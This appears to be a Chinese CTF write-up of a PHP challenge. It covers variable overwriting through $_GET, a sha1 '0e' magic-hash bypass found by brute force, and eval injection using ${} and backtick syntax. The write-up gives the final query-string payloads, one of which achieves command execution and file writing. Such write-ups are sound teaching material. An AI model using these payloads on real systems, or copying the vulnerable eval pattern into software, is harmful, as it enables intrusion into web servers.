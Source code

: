 ```php
getVars();
if (isset($source)) {
    highlight_file(__FILE__);
}

//只有admin才能设置环境变量
if (md5($password) === $adminPassword && sha1($verif) == $verif) {
    echo 'you can set config variables!!' . '</br>';
    foreach (array_keys($GLOBALS) as $key) {
        if (preg_match('/var\d{1,2}/', $key) && strlen($GLOBALS[$key]) < 12) {
            @eval("\$$key" . '="' . $GLOBALS[$key] . '";');
        }
    }
} else {
    foreach (array_keys($GLOBALS) as $key) {
        if (preg_match('/var\d{1,2}/', $key)) {
            echo ($GLOBALS[$key]) . '</br>';
        }
    }
} 
```
这个功能可以将`$_GET`中的键值直接转为变量类似于`xxx?password=1`那么就能覆盖`$adminPassword`变量
```php
$adminPassword = 'd8b8caf4df69a81f2815pbcb74cd73ab';
foreach ($_GET as $key => $value) {
  global ${$key};
}
```
将`$password`覆盖为任意值，然后将`$adminPassword`覆盖为其md5值即可
第二关sha1的0e弱等于，进行爆破
```php
<?php
for ($i5 = 0; $i5 <= 9999999999; $i5++) {
    $res = '0e' . $i5;
    //0e1290633704
    if ($res == hash('sha1', $res)) {
        print_r($res);
    }
}
```
第三关就是使用`${}`来构造语句，我的思路是`${``}`执行任意语句，思路不够清晰
```php
foreach (array_keys($GLOBALS) as $key) {
        if (preg_match('/var\d{1,2}/', $key) && strlen($GLOBALS[$key]) < 12) {
            @eval("\$$key" . '="' . $GLOBALS[$key] . '";');
        }
    }
```
>这段是将设置var开头，后面带1到2个数字变量的值，类似于var1=xxx;这样的
由于变量覆盖的环节限制了单双引号的输入，所以这里的解法为利用php复杂

最后的payload：
```php
?source=1&adminPassword=c4ca4238a0b923820dcc509a6f75849b&password=1&verif=0e1290633704&var1={$_GET[1]}&var3=${$var1()}&1=phpinfo
```
最后在`phpinfo()`找到flag
![](/bmth_blog/images/pasted-173.png)
尝试一下我之前的payload：
```php
?source=1&adminPassword=c4ca4238a0b923820dcc509a6f75849b&password=1&verif=0e1290633704&var1=${`>1.txt`}
```
发现成功写入文件1.txt，那么就可以6位以下任意命令执行了，即可写入一句话